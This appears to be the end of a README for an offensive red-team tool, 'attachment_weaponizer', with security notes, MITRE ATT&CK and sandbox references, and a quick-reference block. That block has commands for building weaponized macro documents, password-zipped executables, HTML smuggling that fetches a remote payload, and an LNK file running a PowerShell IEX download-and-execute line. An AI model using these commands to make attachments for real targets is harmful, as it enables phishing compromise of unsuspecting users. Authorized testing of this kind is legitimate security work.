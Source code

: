 ## Security Notes

- All techniques have legitimate defensive testing uses
- Attachments should be tested in isolated environments
- Never use against unauthorized targets
- Follow responsible disclosure practices
- Understand detection signatures

## Resources

### Further Reading
- MITRE ATT&CK: T1566 (Phishing)
- MITRE ATT&CK: T1204 (User Execution)
- OWASP: Phishing Awareness
- SANS: Phishing Defense

### Tools
- VirusTotal: Test detection rates
- Hybrid Analysis: Behavioral analysis
- Any.run: Interactive sandbox
- Joe Sandbox: Advanced analysis

## License

MIT License - For authorized security testing only.

---

## Quick Reference

```bash
# Common commands
python -m attachment_weaponizer macro-doc payload.vba
python -m attachment_weaponizer password-zip payload.exe --password 2024
python -m attachment_weaponizer html-smuggling http://server.com/payload.exe
python -m attachment_weaponizer lnk "powershell -c IEX(...)"
python -m attachment_weaponizer list
python -m attachment_weaponizer examples
```

---

**⚠️ Final Warning**: This tool creates actual malicious files. Use only with proper authorization. Unauthorized use is illegal and unethical.